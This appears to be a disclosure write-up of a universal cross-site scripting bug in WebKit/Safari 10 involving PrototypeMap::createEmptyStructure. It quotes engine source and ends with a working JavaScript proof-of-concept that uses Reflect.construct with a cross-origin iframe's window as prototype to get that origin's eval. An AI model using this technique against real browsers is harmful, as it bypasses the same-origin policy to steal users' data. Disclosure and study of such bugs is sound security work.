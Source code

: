 # UXSS via PrototypeMap::createEmptyStructure

When creating an object in Javascript, its `Structure` is created with the constructor's prototype's `VM`.

Here's some snippets of that routine.
```cpp
Structure* InternalFunction::createSubclassStructure(ExecState* exec, JSValue newTarget, Structure* baseClass)
{
    ...
    if (newTarget && newTarget != exec->jsCallee()) {
        // newTarget may be an InternalFunction if we were called from Reflect.construct.
        JSFunction* targetFunction = jsDynamicCast<JSFunction*>(newTarget);

        if (LIKELY(targetFunction)) {
            ...
                return targetFunction->rareData(vm)->createInternalFunctionAllocationStructureFromBase(vm, prototype, baseClass);
            ...
        } else {
            ...
                return vm.prototypeMap.emptyStructureForPrototypeFromBaseStructure(prototype, baseClass);
            ...
        }
    }

    return baseClass;
}

inline Structure* PrototypeMap::createEmptyStructure(JSObject* prototype, const TypeInfo& typeInfo, const ClassInfo* classInfo, IndexingType indexingType, unsigned inlineCapacity)
{
    ...
    Structure* structure = Structure::create(
        prototype->globalObject()->vm(), prototype->globalObject(), prototype, typeInfo, classInfo, indexingType, inlineCapacity);
    m_structures.set(key, Weak<Structure>(structure));
    ...
}
```

As we can see `Structure::create` is called with prototype's `vm` and `globalObject` as arguments. So it could lead to an UXSS condition.

Tested on Safari 10.0.2(12602.3.12.0.1) and Webkit Nightly 10.0.2(12602.3.12.0.1, r210800).

Poc:
```js
let f = document.body.appendChild(document.createElement('iframe'));
  f.onload = () => {
      f.onload = null;

      let g = function () {};
      g.prototype = f.contentWindow;

      let a = Reflect.construct(Function, ['return window[0].eval;'], g);
      let e = a();
      e('alert(location)');
  };

  f.src = 'https://abc.xyz/';
```

